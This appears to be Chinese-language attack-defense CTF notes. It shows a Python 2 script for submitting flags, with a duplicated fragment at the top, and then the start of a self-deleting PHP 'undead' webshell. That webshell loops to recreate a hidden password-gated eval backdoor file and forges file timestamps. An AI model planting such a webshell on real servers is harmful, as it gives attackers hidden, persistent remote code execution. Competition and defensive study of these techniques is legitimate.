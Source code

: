 ```
    data = response.read()
    return json.loads(data)

if __name__ == '__main__':
    if len(sys.argv) < 3:
        print 'usage: ./submitflag.py [team_token] [flag]'
        sys.exit()
    host = server_host
    if len(sys.argv) > 3:
        host = sys.argv[3]
#!/usr/bin/env python2
#coding=utf-8
import sys
import json
import urllib
import httplib
server_host = ''    #提交flag的服务器地址
server_port = 80
def submit(team_token, flag, host=server_host, port=server_port, timeout=5):
    if not team_token or not flag:
        raise Exception('team token or flag wrong')
    conn = httplib.HTTPConnection(host, port, timeout=timeout)
    params = urllib.urlencode({        #提交需要post的参数,根据情况修改
        'token': team_token,    
        'flag': flag,
    })
    headers = {
        "Content-type": "application/x-www-form-urlencode"
    }
    conn.request('POST', '[submit_flag_dir]', params, headers)    #第二个参数为提交flag的目录
    response = conn.getresponse()
    data = response.read()
    return json.loads(data)

if __name__ == '__main__':
    if len(sys.argv) < 3:
        print 'usage: ./submitflag.py [team_token] [flag]'
        sys.exit()
    host = server_host
    if len(sys.argv) > 3:
        host = sys.argv[3]
    print json.dumps(submit(sys.argv[1], sys.argv[2], host=host), indent=4)
```

根据题目灵活修改

## 不死马理解

![](https://z4a.net/images/2022/05/15/image4a0b8d035e5d4b0f.png)

```
<?php
    ignore_user_abort(true);//设置与客户机断开是否会终止脚本的执行，这里设置为true则忽略与用户的断开，即使与客户机断开脚本仍会执行。
    set_time_limit(0);//设置脚本最大执行时间，这里设置为0，即没有时间方面的限制
    unlink(__FILE__);//删除文件本身，以起到隐蔽自身的作用
    $file = '.busi.php';
    $code = '<?php if(md5($_GET["pass"])=="1a1dc91c907325c69271ddf0c944bc72"){@eval($_POST[a]);} ?>';
    //pass=pass
    while (1){
        file_put_contents($file,$code);
        system('touch -m -d "2018-12-01 09:10:12" .3.php');
        usleep(0);
```